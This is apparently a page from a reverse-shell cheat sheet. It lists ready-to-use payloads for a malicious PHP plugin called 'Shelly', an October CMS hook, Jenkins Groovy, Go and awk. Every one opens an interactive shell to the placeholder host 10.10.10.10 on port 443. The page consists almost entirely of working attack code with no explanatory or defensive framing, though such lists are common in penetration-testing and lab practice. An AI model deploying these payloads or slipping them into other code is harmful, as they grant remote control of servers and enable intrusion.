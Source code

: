 ## **Any Plugin Php**

```
<?php

/**
* Plugin Name: Shelly
* Plugin URI: http://localhost
* Description: Love Shelly
* Version: 1.0
* Author: d4t4s3c
* Author URI: https://github.com/d4t4s3c
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'");
?>
```

## **October**

```
function onstart(){    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'");}
```

## **Jenkins**

```
String host="10.10.10.10";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## **Golang**

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.10.10.10:443");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

## **Awk**

```
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
